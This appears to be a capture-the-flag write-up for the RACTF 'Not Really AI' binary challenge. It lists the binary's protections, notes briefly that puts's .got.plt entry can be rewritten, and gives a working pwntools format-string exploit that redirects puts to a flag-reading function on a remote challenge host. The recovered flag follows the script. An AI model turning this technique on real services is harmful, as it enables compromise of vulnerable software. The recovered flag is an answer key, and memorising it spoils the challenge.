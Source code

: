 # Not Really AI

###
`Exploit the service to get the flag.`

```
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

* find out with dbg where the buffer starts
* change next call which is 'puts' on 'flaggy' because `.got.plt` is possible to
  rewrite

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
debug = 0

if debug:
    io = process(['./nra'])
else:
    io = remote('88.198.219.20', 52201)

binary = ELF('./nra')
readflag = binary.symbols['flaggy']
# .got puts address
puts = 0x0804c018

payload  = b''
payload += fmtstr_payload(4, {puts: readflag})

io.recvuntil('How are you finding RACTF?')
io.sendline(payload)

io.interactive()
#ractf{f0rmat_Str1nG_fuN}
```
